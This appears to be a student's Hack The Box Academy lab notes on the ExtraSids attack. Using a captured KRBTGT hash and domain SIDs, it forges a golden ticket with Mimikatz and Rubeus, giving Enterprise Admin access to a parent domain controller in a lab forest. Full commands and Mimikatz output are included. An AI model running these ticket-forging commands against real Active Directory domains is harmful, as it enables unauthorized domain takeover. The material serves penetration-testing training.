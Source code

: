 * The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
* The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
* The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
* The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
* The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Currently we donot have access

* `PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$`

#### **Creating a Golden Ticket with Mimikatz**

```powershell
PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

User      : hacker
Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
SID       : S-1-5-21-2806153819-209893948-922872689
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session
```

we can confirm a kerberos ticket is in memory using `klist` command

Now running this command, we have access.`PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$`

* `ls \\academy-ea-dc01.inlanefreight.local\c$` → listing the entire C: Drive of the Domain Controller

## **ExtraSids Attack - Rubeus**

* `PS C:\htb> .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt` →creating golden ticket using Rubeus
* `klist` to confirm ticket is in Memory
